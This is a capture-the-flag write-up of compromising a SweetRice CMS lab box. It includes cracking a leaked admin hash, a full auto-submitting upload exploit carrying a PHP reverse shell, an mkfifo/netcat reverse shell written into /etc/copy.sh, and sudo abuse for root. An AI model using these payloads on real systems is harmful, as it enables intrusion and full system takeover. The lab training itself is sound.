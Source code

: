 Starting off with an nmap scan 

```nmap -sC -sV -O 10.10.14.115```

Just 2 ports open, 22 and 80 which indicate SSH and an HTTP server respectively.

Let's check out the http server...we're greeted by the default Apache2 ubuntu page. We'll run Dirb to check for any hidden directories.

`dirb http://10.10.14.115 /usr/share/dirb/wordlists/big.txt`

And we'll also add the -X .php option since this is an apache server.

`dirb http://10.10.14.115 /usr/share/dirb/wordlists/big.txt -X .php`

We found a directory at http:/10.10.14.115/content

Looks like this page is using a website management system called "SweetRice". Let's look it up on exploit-db.

I couldn't find a version number but the majority of the exploits seem to affect version 1.5.1, let's try and use an arbitrary file upload exploit to upload a reverse shell.

We'll use https://www.exploit-db.com/exploits/40716

It looks like we need to be authenticated for this exploit to work. We could try and brute-force the login but let's try another attack vector first. Our dirb scan found several directories within /content

Three of these stand out to me. `/content/as` `/content/inc` and `/content/as/lib`

`/content/as` is the admin sign-in panel to access the dashboard.

`/content/as/lib` contains PHP scripts that provide functionality to the website.

`/content/inc` also contains PHP scripts but it also contains a few directories. One of them being `mysql_backup/` We can try and look for some credentials stored in the backup. Let's download the file to our Attackbox and open it up with a text editor.

`"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\`

Looks like we found some hard-coded credentials. It looks like an MD5 hash so we'll need to crack it. I opted to use crackstation for this.

Now that we have some credentials, let's use them to login to the admin panel we saw earlier.

Let's use https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html to try and get a shell on the system. (We've also cofirmed the version number as 1.5.1)

After slightly modifying the exploit to suit our needs, we set up a listener on our attackbox and uploaded our php reverse shell. We can now navigate to http://10.10.14.115/content/inc/ads/ to run our shell.

This is what our working exploit looked like:

```<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.14.115/content/as/?type=ad&mode=save"
method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked2"/>
<textarea type="hidden" name="adv">
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.102.213';
$port = 9001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


We now have a low-priv shell on the system. Let's first grab the user flag and then work on escalating our privileges.

`find / -type f -name user.txt 2>/dev/null`

And we got a hit at `/home/itguy/user.txt`

Let's work on the root flag now.

`sudo -l` to check our current privileges.

Looks like we can run perl, and a perl backup script as sudo. We'll check our trusty https://gtfobins.github.io/ for an exploit.

`sudo perl -e 'exec "/bin/sh";'`

We get the following error:

> sudo: no tty present and no askpass program specified

The other script "backup.pl" appears to use perl to execute a script located at "/etc/copy.sh"

The script:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f`

This looks familiar...it appears to be a reverse shell conveniently waiting for us to modify it for our use case. We can't use `nano` so we'll use `echo` to modify it.

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.102.213 5554 >/tmp/f" > /etc/copy.sh

Remember to set up the listener on our Attackbox

`nc -lvnp 5554`

Also, remember that we have sudo permission for /home/itguy/backup.pl which is the perl script which runs /copy.sh

We need to run that script as sudo, otherwise we won't get the root shell, it'll just be a low-priv shell.

`sudo perl /home/itguy/backup.pl`

Now that we're root, let's find that flag.

`find / -type f -name root.txt 2>/dev/null`

Done!

This box was a little more challenging than the others I've done so far. I had research how to get an initial foothold (through the mySQL backup file). I also didn't recognize the contents of `copy.sh` as a reverse shell at first so I got stuck on that part too. I definitely learned a lot though, and I'm looking forward to the next box!

